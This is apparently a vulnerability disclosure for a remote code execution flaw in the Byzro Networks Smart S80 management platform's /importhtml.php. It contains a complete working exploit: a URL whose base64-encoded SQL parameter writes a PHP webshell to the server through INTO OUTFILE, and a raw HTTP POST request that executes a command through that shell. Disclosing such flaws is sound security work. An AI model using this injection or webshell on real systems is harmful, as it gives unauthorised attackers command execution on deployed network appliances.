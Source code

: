 Byzro Networks Smart S80 management platform has rce vulnerability

version:s80

Vulnerability location:/importhtml.php

Code analysis

The sql parameters in the code are controllable and brought into the exportHtmlWebSend() function.

![image](https://github.com/scausoft/cve/assets/40783968/854df332-fb4a-47e4-97e2-4de5d1e1eae1)

In this function, the sql statement is directly brought into mysql_query() for execution. We can write any file into the file through intooutfile, causing an rce vulnerability.

![image](https://github.com/scausoft/cve/assets/40783968/f087540e-9acc-4a32-85f3-38903fb9fae2)

1. The login interface is as shown in the figure.

![image](https://github.com/scausoft/cve/assets/40783968/7f58eca3-4bd0-4522-a8da-7131fef04ad6)

2. Construct the url, write the comment.php file, construct the poc, and successfully execute the command

https://ip:port/importhtml.php?type=exporthtmlmail&tab=tb_RCtrlLog&sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvY29ubW1lbnQucGhwJw==

POC
```
POST /app/conmment.php HTTP/1.1
Host: ip:port
Cookie: PHPSESSID=3401b9ae729bf679ce88b63174194ff4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 1.1.1.1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

cmd=id
```
![image](https://github.com/scausoft/cve/assets/40783968/57f77885-51e4-4f25-8fce-f1558d90b1bc)
